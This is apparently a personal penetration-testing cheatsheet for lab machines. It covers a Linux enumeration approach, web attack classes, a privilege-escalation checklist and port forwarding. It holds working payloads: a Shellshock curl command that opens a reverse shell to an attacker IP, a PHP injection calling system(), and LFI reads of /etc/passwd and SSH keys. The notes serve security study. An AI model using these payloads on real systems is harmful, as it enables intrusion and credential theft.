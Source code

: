 # My Notes / Cheatsheet
### Last Updated: 09 Jan 2020
Notes related to Vuln Assmnt/PenTesting 

#### Approach for Linux
> 1. Identify open ports (**nmap/autorecon/rustscan**), enumerate ports (TCP+UDP) for services.
> 1. Run **gobuster/wfuzz** and identify DIR and FILES present. Try using 02 diff wordlists. BurpSuite also has crawler. 
> 1. Run **nikto**, Have you read the source code ? If its a website look whats running ? 
> 1. Wordpress, Joomla, October, Phpmyadmin, Mantis, Adminer etc.
> 1. Running tools e.g **wpscan** or **joomscan** can help further enumeration.
> 1. Try running **Hydra** with HTTP module for brute forcing.
> 1. Cewl can be used to generate a custom wordlist if "/usr/share/wordlists/rockyou.txt" fails. 
> 1. Custom built web normally has:
> 1. SQL injection - **Authentication bypass** & **Database dump** & **Upload malicious file**.
> 1. XSS - Alerting messages and getting cookies
> 1. LFI - **.php?file=/etc/passwd** - Try fuzzing it with WFUZZ. Reading **LOG** files to acheive RCE or Reading **SSH** key files.
> 1. PHP assert ftn to bypass - e.g. http://192.168.10.30/index.php?page=' and die(system("ls")) or '	
> 1. Command Injection - Try Special characters e.g. " ; , | , & , && " etc. ${IFS} is space --- Can help in achieving ComInj. 

#### PrivESC Methodology for Linux
> 1. Creds file or any misconfiguration file? (**find** command)
> 1. SUDO commands this user can run ?
> 1. SUID binaries present (use **find** command or **suid3num python** script)
> 1. Is there SQL database, try enumerating it ?
> 1. Running ports / services on this box ? (use **netstat** or **ss** command)
> 1. Pspy ?
> 1. Kernel or other exploits e.g. exploits for SUDO ?
> 1. **Linpeas** or **LinEnum** or **Linux Exploit Suggester**

#### cgi-bin folder or ShellShock
> e.g from vulnhub symfonos v3 following gives Rev Shell @ port 9999 \ 
> curl -H 'User-Agent: () { :; }; /bin/bash -i >& /dev/tcp/192.168.10.100/9999 0>&1' http://192.168.10.10/cgi-bin underworld/test.sh

#### Portforwarding local service 8080
> using **socat** for local port forwarding. In this example port 8080 is running locally and we will forward and make it public to 8089.\
> socat TCP-LISTEN:8089,fork TCP:127.0.0.1:8080
